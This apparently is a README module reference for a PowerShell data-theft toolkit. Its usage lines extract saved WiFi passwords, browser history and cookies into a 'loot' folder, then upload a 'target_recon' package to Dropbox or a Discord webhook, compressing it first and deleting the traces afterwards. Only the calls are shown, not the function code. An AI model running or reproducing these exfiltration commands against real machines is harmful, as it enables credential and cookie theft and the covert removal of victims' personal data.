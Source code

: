 ## Module Reference

### Safe Modules

#### `popup_messages.ps1`
Shows message boxes. Completely harmless.

```powershell
Show-PopupMessages -Cycles 3
```

#### `system_info.ps1`
Collects hardware, OS, network, and security configuration.

```powershell
$data = Get-SystemInfo
Export-SystemInfoReport -OutputPath "system.txt" -Data $data
```

#### `user_recon.ps1`
Gathers user accounts, recent files, startup programs, processes.

```powershell
Export-UserReconReport -OutputPath "user_info.txt"
```

### Unsafe Modules

#### `wifi_info.ps1`
Extracts saved WiFi profiles and passwords. **Requires Administrator**.

```powershell
$profiles = Get-SavedWiFiProfiles -IncludePasswords
Export-WiFiReport -OutputPath "wifi.txt" -IncludePasswords
Send-WiFiToDiscord -WebhookUrl $DiscordWebhook
```

#### `browser_data.ps1`
Extracts browsing history, bookmarks, and cookies.

```powershell
Export-BrowserDataReport -OutputPath "browsers.txt"
$chromeHistory = Get-BrowserData -Browser Chrome -DataType History
Copy-FirefoxCookies -OutputFolder $LootFolder
```

#### `exfiltration.ps1`
Uploads collected data to cloud services.

```powershell
$lootPath = New-LootPackage -OutputFolder $env:TEMP -CustomName "target_recon"

Invoke-DataExfiltration `
    -LootFolder $lootPath `
    -DropboxToken $DropboxToken `
    -DiscordWebhook $DiscordWebhook `
    -CompressFirst `
    -CleanupAfter
```

